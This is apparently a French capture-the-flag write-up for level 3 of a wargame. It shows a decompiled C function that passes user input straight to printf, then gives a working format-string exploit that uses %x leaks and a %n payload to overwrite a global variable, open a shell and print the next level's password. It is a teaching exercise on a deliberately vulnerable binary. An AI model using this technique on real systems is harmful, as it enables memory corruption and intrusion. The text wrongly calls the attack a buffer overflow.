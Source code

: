 ## LEVEL 3

En inspectant le code avec gdb, nous voyons que le programme appelle printf, mais directement avec la variable passe en argument. Il n'y a donc pas de formatage de la chaine de caractere. Et egalement, on se rends compte que le programme appelle system si le m(pas encore initialise) est egal a 64.

D'apres le man de printf: `Un code tel que printf(foo); indique souvent un bogue, car foo peut contenir un caractère « % ». Si foo vient d'une saisie non sécurisée, il peut contenir « %n », ce qui autorise printf() à écrire dans la mémoire, et crée une faille de sécurité.  `

```c
void v(void)

{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 64) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}
```

On peut donc deja trouver l'adresse de la variable m avec gdb

```
info variables

0x0804988c  m
```

On peut exploiter le faire que printf ne reformate pas ce qu'on envoie pour faire une attaque de type buffer overflow.

```python
echo "iiii  %x | %x | %x | %x" | ./level3
200 | b7fd1ac0 | b7ff37d0 | 69696969
```

Notre buffer est donc affiche en 4 eme position, on peut donc mettre exploiter le 4 eme % de printf avec %n pour ecrire dans la variable m.

```python
python -c 'print "\x8c\x98\x04\x08"+"rainfall <3 "*5 + "%4$n"' | ./level3
�rainfall <3 rainfall <3 rainfall <3 rainfall <3 rainfall <3
Wait what?!
```

On peut maintenant juste maintenir la connexion avec le shell et faire un cat sur le fichier contenant le mot de passe.

```python
(python -c 'print "\x8c\x98\x04\x08"+"rainfall <3 "*5 + "%4$n"'; cat -) | ./level3
�rainfall <3 rainfall <3 rainfall <3 rainfall <3 rainfall <3
Wait what?!
cat ~level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
